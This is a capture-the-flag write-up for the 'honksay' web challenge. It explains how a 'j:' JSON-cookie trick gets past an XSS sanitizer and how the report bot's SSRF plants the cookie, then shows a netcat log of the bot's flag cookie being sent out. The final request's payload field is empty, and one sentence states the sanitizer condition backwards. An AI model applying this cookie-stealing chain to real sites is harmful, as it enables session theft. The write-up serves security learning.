

# honksay

web xss ssrf

## Analysis

We are given the source of a web application and its address. The home
page is just a goofy duck and a form.

We actually got a `302` when accessing the application for the first
time. This response set the `honk` and `honkcount` cookies.

    HTTP/1.1 302 Found
    X-Powered-By: Express
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Set-Cookie: honk=HONK; Path=/; HttpOnly
    Set-Cookie: honkcount=0; Path=/; HttpOnly
    Location: /
    Vary: Accept
    Content-Type: text/html; charset=utf-8
    Content-Length: 46
    Date: Mon, 29 Aug 2022 01:34:04 GMT
    Connection: close

    
Found. Redirecting to <a href="/">/</a>

These cookies are reflected on the home page. We can see this by looking
at the source for the `/` route.

    app.get('/', (req, res) => {
        if (req.cookies.honk){
            //construct object
            let finalhonk = {};
            if (typeof(req.cookies.honk) === 'object'){
                finalhonk = req.cookies.honk
            } else {
                finalhonk = {
                    message: clean(req.cookies.honk), 
                    amountoftimeshonked: req.cookies.honkcount.toString()
                };
            }
            res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
        } else {
    <snip>

It's important to note that the `honk` cookie is sanitized by the
`clean` function when `typeof(req.cookies.honk) === 'object'` is `true`.
So if we make the cookie an object we'll have XSS. I tried to simply set
it to a JSON object, but this didn't work, the cookie was still parsed
as a string.

I then decided to take a look at the cookie parser's [source
code](https://github.com/expressjs/cookie-parser/blob/master/index.js)
to figure out how I could make it output an object and found this piece
of code. This means that the contents of a JSON cookie must start with
`j:`. This trick was used to bypass the filter and get XSS.

    function JSONCookie (str) {
      if (typeof str !== 'string' || str.substr(0, 2) !== 'j:') {
        return undefined
      }
    <snip>

We also have a `/changehonk` route, which changes the `honk` cookie to
whatever we want.

    app.get('/changehonk', (req, res) => {
        res.cookie('honk', req.query.newhonk, {
            httpOnly: true
        });
        res.cookie('honkcount', 0, {
            httpOnly: true
        });
        res.redirect('/');
    });

The form on the home page POSTs to `/report`. This route makes the goose
visit any URL we want, so we have SSRF.

    app.post('/report', (req, res) => {
        const url = req.body.url;
        goose.visit(url);
        res.send('honk');
    });

The `visit` function uses
[puppeteer](https://github.com/puppeteer/puppeteer) to visit our URL.
This is done using Headless Chrome, so the goose will actually run the
Javascript on the page. We can also see that the flag is on the goose's
browser.

    const FLAG = process.env.FLAG || "maple{fake}";
    <snip>

    page = await browser.newPage();
    await page.setCookie({
        name: 'flag',
        value: FLAG,
        domain: 'localhost',
        samesite: 'none'
    });
    await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));

## Solution

We'll use `/report` to make the goose visit `/changehook` and set its
`honk` cookie to an XSS payload that gives us its cookies. Our cookie
must start with `j:` so that it gets parsed as an object and the XSS
filter gets bypassed.

Here's the final request.

    POST /report HTTP/1.1
    Host: localhost:9988
    Content-Length: 230
    Cache-Control: max-age=0
    sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Linux"
    Upgrade-Insecure-Requests: 1
    Origin: http://localhost:9988
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: http://localhost:9988/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: honk=HONK; honkcount=0
    Connection: close

    url=<@urlencode>http://localhost:9988/changehonk?newhonk=j:{"message":"","amountoftimeshonked":"a"}<@/urlencode>

And here's the flag being received through `nc`.

    wiki_imgs$ nc -lnvp 1234
    Connection from 127.0.0.1:41874
    GET /?a=flag=maple{fakefleg} HTTP/1.1
    Host: localhost:1234
    Connection: keep-alive
    sec-ch-ua:
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/102.0.5005.173 Safari/537.36
    sec-ch-ua-platform:
    Accept: */*
    Origin: http://localhost:9988
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://localhost:9988/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US

Some guy on Discord also figured out another way to make the cookie an
object.

    http://localhost:9988/changehonk?newhonk[message]=
